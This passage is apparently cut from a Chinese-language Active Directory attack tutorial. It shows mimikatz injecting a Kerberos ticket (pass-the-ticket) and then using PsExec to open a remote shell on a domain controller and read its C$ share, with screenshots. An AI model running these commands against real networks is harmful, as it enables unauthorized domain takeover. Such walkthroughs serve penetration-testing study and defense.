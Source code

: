 #### 3、注入票据

```plain
kerberos::ptt carmi.kirbr
```

[![](assets/1706958938-3b6b9b1d0189d7399075da067ea23b67.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172316969-493974440.png)

#### 4、生成域控会话

```plain
misc::cmd
whoami
dir \\192.168.126.10\c$
PsExec.exe \\192.168.126.10 cmd
ipconfig
```

[![](assets/1706958938-4a5a3f02b8579aee8f2f23e08c0aa0c0.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172317352-404818271.png)
